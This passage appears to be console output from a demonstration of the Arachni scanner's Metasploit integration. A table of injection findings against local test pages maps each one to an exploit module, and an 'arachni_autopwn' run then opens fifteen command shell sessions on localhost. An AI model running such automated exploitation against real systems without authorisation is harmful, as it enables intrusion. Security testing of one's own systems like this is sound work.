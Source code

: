         7   127.0.0.1  /~zapotek/tests/forms/rfi.php           Remote file inclusion  A remote file inclusion vulnerability exists.                     POST    {"rfi"=>"XXinjectionXX"}             unix/webapp/arachni_php_include
        8   127.0.0.1  /~zapotek/tests/links/eval.php          Code injection         Code can be injected into the web application.                    GET     {"eval"=>";XXinjectionXX"}           unix/webapp/arachni_php_eval
        9   127.0.0.1  /~zapotek/tests/links/os_command.php    OS command injection   The web application allows an attacker to execute OS commands.    GET     {"os_command"=>"XXinjectionXX\x00"}  unix/webapp/arachni_exec
        10  127.0.0.1  /~zapotek/tests/links/os_command.php    OS command injection   The web application allows an attacker to execute OS commands.    GET     {"os_command"=>"XXinjectionXX"}      unix/webapp/arachni_exec
        11  127.0.0.1  /~zapotek/tests/links/rfi.php           Remote file inclusion  A remote file inclusion vulnerability exists.                     GET     {"rfi"=>"XXinjectionXX\x00"}         unix/webapp/arachni_php_include
        12  127.0.0.1  /~zapotek/tests/links/rfi.php           Remote file inclusion  A remote file inclusion vulnerability exists.                     GET     {"rfi"=>"XXinjectionXX"}             unix/webapp/arachni_php_include
        13  127.0.0.1  /~zapotek/tests/cookies/eval.php        Code injection         Code can be injected into the web application.                    COOKIE  {"eval"=>"%3BXXinjectionXX"}         unix/webapp/arachni_php_eval
        14  127.0.0.1  /~zapotek/tests/cookies/os_command.php  OS command injection   The web application allows an attacker to execute OS commands.    COOKIE  {"os_command"=>"XXinjectionXX\x00"}  unix/webapp/arachni_exec
        15  127.0.0.1  /~zapotek/tests/cookies/os_command.php  OS command injection   The web application allows an attacker to execute OS commands.    COOKIE  {"os_command"=>"XXinjectionXX"}      unix/webapp/arachni_exec
        16  127.0.0.1  /~zapotek/tests/cookies/rfi.php         Remote file inclusion  A remote file inclusion vulnerability exists.                     COOKIE  {"rfi"=>"XXinjectionXX\x00"}         unix/webapp/arachni_php_include
        17  127.0.0.1  /~zapotek/tests/cookies/rfi.php         Remote file inclusion  A remote file inclusion vulnerability exists.                     COOKIE  {"rfi"=>"XXinjectionXX"}             unix/webapp/arachni_php_include

    [*] Done!
    msf > arachni_autopwn -a
    [*] Running pwn-jobs...
    [...snip...]
    [*] Command shell session 1 opened (127.0.0.1:54598 -> 127.0.0.1:5019) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 2 opened (127.0.0.1:55336 -> 127.0.0.1:8541) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 3 opened (127.0.0.1:37880 -> 127.0.0.1:12465) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 4 opened (127.0.0.1:49451 -> 127.0.0.1:10866) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 5 opened (127.0.0.1:40276 -> 127.0.0.1:11915) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 6 opened (127.0.0.1:34400 -> 127.0.0.1:5222) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 7 opened (127.0.0.1:58456 -> 127.0.0.1:10955) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 9 opened (127.0.0.1:48549 -> 127.0.0.1:5929) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 8 opened (127.0.0.1:47028 -> 127.0.0.1:12432) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 10 opened (127.0.0.1:38239 -> 127.0.0.1:11919) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 11 opened (127.0.0.1:58541 -> 127.0.0.1:14343) at 2010-10-28 18:26:01 +0100
    [*] Command shell session 12 opened (127.0.0.1:48655 -> 127.0.0.1:13743) at 2010-10-28 18:26:01 +0100
    [*] Command shell session 13 opened (127.0.0.1:59996 -> 127.0.0.1:8895) at 2010-10-28 18:26:01 +0100
    [*] Command shell session 14 opened (127.0.0.1:53717 -> 127.0.0.1:10767) at 2010-10-28 18:26:01 +0100
    [*] Command shell session 15 opened (127.0.0.1:51623 -> 127.0.0.1:7668) at 2010-10-28 18:26:01 +0100